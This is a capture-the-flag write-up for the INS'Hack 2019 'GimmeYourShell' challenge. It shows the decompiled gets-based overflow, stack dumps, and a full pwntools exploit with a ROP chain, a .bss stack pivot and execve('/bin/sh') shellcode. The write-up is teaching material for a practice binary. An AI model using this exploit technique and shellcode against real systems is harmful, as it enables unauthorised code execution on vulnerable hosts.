


# GimmeYourShell

INS'Hack CTF 2019


This is an easy-level Pwning problem for INS Hack 2019.

### Problem description


"I try to find his secret. Can you answer his question and get his secret ? I can handle it.

He is waiting for you at: `ssh -i <your_keyfile> -p 2225 user@gimme-your-shell.ctf.insecurity-insa.fr` To find your keyfile, look into your profile on this website."


### Reconnaissance

This problem is extremely vulnerable. Checksec shows:

```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   weak
```

The stack is executable, which explains why we didn't get a `libc` file with this binary.

There's a `vuln` function that is basically extremely vulnerable. Here's the decompiled code from Ghidra:

```
void vuln(void)

{
  char local_18 [16];

  puts("Ok, now give me the name of our president.");
  fflush((FILE *)0x0);
  gets(local_18);
  puts("Oh I remember !");
  fflush((FILE *)0x0);
  return;
}
```
So, with `gets` I can read an arbitrary number of bytes into the `local_18` buffer and overwrite the return address. I want to return to the stack and execute some shell code. Let's take a look at the stack when we read in some characters:



Right above the return address from `vuln` is a pointer to a stack address. So if I pop `%rdi` and return to `puts`, I can leak that stack address. Then I can return to the `gets` instruction and read in code that returns straight into my buffer. Great! Let me make sure I have some 64-bit shell code working (this is a 64-bit binary). The shell code can be as long as I need, because I can just add a bunch of jumps to `ret` instructions to the stack if necessary so that I don't overwrite anything important in my ROP chain.

Next, I noticed that the code has no reference to `pop rdi` anywhere in its code that I can access via ROP. After thinking some more, I considered that a better approach might be to place my shell code on the stack, then overwrite the last byte of a stack pointer using `gets` in order to redirect execution back into my shell code. I think I'll try that.

Okay, looking at the stack when I call `gets`:
```
pwndbg> x /40xg $rsp
0x7fff4375cf70:	0x4141414141414141	0x4141414141414141
0x7fff4375cf80:	0x00007fff4375cf00	0x0000000000000000
0x7fff4375d000:	0x2f50bd9cd0ac0c50	0x2ea607d499520c50
0x7fff4375d010:	0x0000000000000000	0x0000000000000000
0x7fff4375d020:	0x0000000000000000	0x0000000000000000
0x7fff4375d030:	0x0000000000000000	0x0000000000000000
0x7fff4375d040:	0x0000000000000000	0x0000000000000000
0x7fff4375d050:	0x0000000000000000	0x0000000000400470
0x7fff4375d060:	0x00007fff4375d080	0x0000000000400499
0x7fff4375d070:	0x00007fff4375d078	0x000000000000001c
```

`0x7fff4375d060` seems like a good target: I can just overwrite the last byte with a null byte and jump back into my own buffer. I'm not sure it will work on the server, but it's worth a shot...

That approach is a little unstable, but I think I found something that does work:
`0x0000000000400654 : add rsp, 0x38 ; ret`

That lets me put my code on the stack and then jump over it. In the above example, if I put my exploit at 0x7fff4375d000, move `%rsp` up `0x38` bytes at `0x7fff4375cff8`, and then overwrite the last byte of `0x7fff4375d060` with a null byte, I'll return to my exploit. That should work 1 out of 16 times, so I can make it work with a brute force. Let's do it! As I'm checking this with `gdb`, I just want to remember that I want `%rsp` to end in 70 right after the read.

Here's the stack now:
```
pwndbg> x /40xg $rsp
0x7ffd749a1e70:	0x4141414141414141	0x4141414141414141
0x7ffd749a1e80:	0x4141414141414141	0x0000000000400417
0x7ffd749a1e90:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ea0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1eb0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ec0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ed0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ee0:	0x0000000000400417	0x0000000000400417
0x7ffd749a1ef0:	0x0000000000400417	0x0000000000400654
0x7ffd749a1f00:	0x622f2fbb48d23148	0xebc14868732f6e69
0x7ffd749a1f10:	0x485750e789485308	0x9090050f3bb0e689
0x7ffd749a1f20:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f30:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f40:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f50:	0x0000000000400417	0x0000000000400417
0x7ffd749a1f60:	0x00007ffd749a1f00	0x0000000000400499
0x7ffd749a1f70:	0x00007ffd749a1f78	0x000000000000001c
```

That exploit works locally, but apparently not on the server. Well, maybe the stack is not set up the same way on the server. What I want to do is overwrite the first byte of the saved `%rbp` pointer on the stack right after the return address `0x400470`. So, I can figure out how many writes on the stack it will take me to get up to that return address.

Frustratingly, a few hours of efforts to overwrite just the right byte of a stack address on the server did not pay off. The stack was set up just a little differently. Then I considered popping a `.bss` address as `rbp` and returning to the `gets` call a second time, then returning to the `.bss` section to the exact place where I knew my buffer would be located.

And that worked!



Here's the exploit:
```
from pwn import *
from time import sleep

DELAY = 0.1
p = process('/bin/sh')
p.send('ssh user@gimme-your-shell.ctf.insecurity-insa.fr -i ~/.ssh/id_inshack -p 2225\n')

shellcode = "\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"
shellcode += "\x48\xc7\xc0\x70\x04\x40\x00\xff\xe0\x90" # mov rax, 0x00400470; jmp rax


RET_ADDR = 0x400417
ADD_56_TO_RSP_ADDR = 0x400654
POPRBP_ADDR = 0x400522 # pop rbp; ret

p.recvuntil("president.")

payload1 = "A"*24
payload1 += p64(POPRBP_ADDR)
payload1 += p64(0x600b10) # bss section
payload1 += p64(0x400570) # gets into rbp-0x10
payload1 += p64(0x600b00)
payload1 += "\n"

payload2 = p64(0x0)*2
payload2 += p64 (0x600b10) # new rbp when leave is called
payload2 += p64(0x600b20) # ret to shellcode
payload2 += shellcode
payload2 += "\x90"*16
payload2 += "\n"


p.send(payload1)
sleep(DELAY)
p.send(payload2)
p.interactive()
```

### Comparison to other approaches

[beerpwn](https://github.com/beerpwn/ctf/tree/master/2019/INS'Hack_ctf/gimme_your_shell) actually solved this challenge using ROP, but notes in their write-up that the intended solution is to jump to the shellcode, as ASLR was disabled on the server.
